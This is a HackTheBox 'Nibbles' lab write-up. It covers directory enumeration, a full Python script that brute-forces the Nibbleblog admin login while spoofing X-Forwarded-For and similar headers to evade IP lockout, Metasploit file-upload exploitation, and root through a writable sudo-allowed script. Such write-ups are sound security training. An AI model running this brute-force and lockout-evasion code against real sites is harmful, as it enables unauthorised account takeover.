 +++
title = "Nibbles - HackTheBox"
date = 2021-03-07T23:54:03+11:00
lastmod = 2021-03-07T23:54:03+11:00
tags = ["HackTheBox", "Metasploit", "Nibbleblog", "Python scripting"]
categories = ["Boot2Root"]
imgs = []
cover = "https://www.hackthebox.eu/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png"  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

# Info

[Machine Profile](https://www.hackthebox.eu/home/machines/profile/121)

# Reconnaissance

A nmap scan shows us that ports 22 and 80 are open.

On port 80 runs a web server. By accessing it in web browser we can see:

![index](index.png)

So naturally we'll go to `/nibbleblog` and have a look.

![nibbleblog](nibbleblog.png)

Looks like that it's running a blog engine called Nibbleblog.

By running a gobuster enumeration we found some files and directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,xxx,bak,old
[+] Timeout:        10s
===============================================================
2021/03/06 16:47:49 Starting gobuster
===============================================================
/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
```

Check `/README` file, we can find the version of Nibbleblog running on this server is `4.0.3`:

![version](version.png)

After a simple search we can find that Nibbleblog 4.0.3 has a file upload vulnerability, there's even a Metasploit module for it. But this requires a valid login credetial.

So I headed to `/admin.php`, and tried to brute force the password. Not long before I found that this machine has a blacklist mechanism which blocks IP addresses fail to login too many times:

![ip ban](ip-ban.png)

Then I thought that maybe this server is vulnerable for client address confusion with HTTP headers. I found [this manual](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) that points out possible header names for this purpose. Next, I wrote a Python script to try a dictionary of passwords, with a random IP address for each request:

```python
import requests
import socket
import random
import threading
import time

class LockingCounter():
	def __init__(self):
		self.lock = threading.Lock()
		self.count = 0

	def increment(self):
		with self.lock:
			self.count += 1

def try_password(un, pw):
	ip = socket.inet_ntoa(random.randint(0,2**32).to_bytes(4, 'big'))
	headers = {'X-Originating-IP': ip, 'X-Forwarded-For': ip, 'X-Remote-Addr': ip}
	params = {'username': un, 'password': pw}
	r = requests.post('http://10.10.10.75/nibbleblog/admin.php', data=params, headers=headers)
	if 'Incorrect username or password.' not in r.text:
		print(params)
		print('Status code: ', r.status_code, r.text)

def iterate_dict(wordlist, counter):
	for pw in wordlist:
		try_password('admin', pw)
		counter.increment();

thread_count = 1
counter = LockingCounter()

passwords = open('/home/taylor/Documents/rockyou.txt', 'rb').read().split(b'\n')
total = len(passwords)

print('Total passwords: ', total)
print('Thread count: ', thread_count)

for i in range(thread_count):
	args = (passwords[i*total//thread_count: (((i+1)*total//thread_count) if i < thread_count - 1 else None)], counter)
	t = threading.Thread(target=iterate_dict, args=args)
	t.start()
	print('Thread %d started' %i)

while threading.active_count() > 1:
	print(counter.count, '/', total, ' done')
	time.sleep(60)

print(counter.count, '/', total, ' done')
```

At first I wanted to brute force with multiple threads. But later I found that this might break the server, makes the server only return `500` status code. So I finally fell back to a single thread.

After a short while, a password showed up:

![password](password.png)

The username and password are: `admin:nibbles`.

And we can now login to the admin dashboard of Nibbles:

![admin login](admin-login.png)

We can see on the right side many failed logins (made by me) from a lot of (fake) IP addresses ;)

# Intial foothold

Now that we had the valid credentials, we can use the Metasploit module:

![metasploit](metasploit-nibble.png)

And, here, we go:

![foothold](foothold.png)

And we can get the user flag:

![user home](user-home.png)


# Escalation

By running [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we notice something interesting:

![sudo command](sudo-command.png)

As user `nibbler`, we can run `/home/nibbler/personal/stuff/monitor.sh` as root without password with `sudo`. And there's no `personal` directory under `nibbler`'s home directory. This means we can simply create the `personal/stuff/monitor.sh` file under home directory that include any command we need. Easy root :)

![get root](get-root.png)

And we can get root's flag:

![root flag](root-flag.png)

